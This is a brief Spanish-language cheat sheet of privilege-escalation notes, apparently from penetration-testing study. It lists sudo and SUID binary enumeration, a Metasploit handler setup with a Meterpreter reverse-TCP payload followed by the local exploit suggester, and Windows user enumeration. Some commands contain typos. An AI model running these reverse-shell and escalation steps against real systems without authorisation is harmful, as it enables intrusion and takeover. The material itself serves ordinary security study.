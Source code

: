 ## sudo -l

Listar binarios que se pueden ejecutar en modo sudo para el usuario actual, GTFOBins es útil para escalar privilegios con el uso de binarios. 

## Permisos SUID

Buscar binarios vulnerables del sistema con permisos root.

```bash
find / -perm 4000 2>/dev/null
```

Hay que buscar los que normalmente no tienen ese tipo de permisos, GTFOBins también tiene intrucciones para este tipo de casos.

## Automatización con Metasploit

```bash
msfconsole
msf6> use /milti/handler
set LHOST nuestraIP
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

meterpreter > background

search local_exploit_suggester
sessions -l
set SESSION 1
run
```

Después intentamos con cada uno de los exploits sugeridos.

## Enumeración de usuarios en Windows

```powershell
net users
```


